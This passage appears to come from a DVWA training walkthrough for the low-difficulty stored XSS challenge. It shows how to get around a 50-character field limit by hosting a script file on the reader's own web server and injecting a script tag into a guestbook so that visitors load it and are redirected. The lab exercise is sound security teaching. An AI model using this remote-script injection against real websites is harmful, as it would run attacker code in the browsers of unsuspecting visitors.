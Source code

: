 But wait, that's 66 characters. We saw by reviewing the source that we have to keep whatever we put in the "Message" field under 50 characters. We thankfully do have a workaround, which we've used in the other XSS challenges. We can stand up a temporary web server, hosting a Javascript file with our payload, and craft our exploit such that it calls the payload on our server. In practice:

Set up your server with: <code>python -m SimpleHTTPServer 80</code>
<ul>
  <li>We set the <code>port</code> argument to 80 so we don't need to specify a port in our exploit. That will save us 5 characters. Note that you may need to kill your running Apache instance with <code>service apache2 stop</code> for this to work.</li>
</ul>
Payload: <code>window.location.replace("http://www.google.com");</code>
<ul>
  <li>We'll save this as with a short name to save even more characters. I chose "r.js".</li>
</ul>
Exploit: <code>&#60;script src=http://[your_Kali_IP]/r.js&#62;&#60;/script&#62;</code>

With this setup, your exploit should be around 48 characters in length, give or take a few. That's the perfect length, and we should be able to implement the attack.

Let's go back to the form and try it out! For "Name", put anything you want, like "test". For "Message", input our shortened exploit.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xsssexploit.png" width="500">

Inspecting the new guestbook entry (Right-click > "Inspect Element") and reviewing the source code shows us that we successfully inserted the malicious script into our web page:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitsource.png" width="500">

Looking at the Python web server shows a successful attempt to retrieve our payload:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitweb.png" width="500">

And if we refresh the page and click through the Firefox warning, we can confirm we get redirected to http://www.google.com/ as we wanted!

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitsuccess.png" width="500">

Challenge complete!
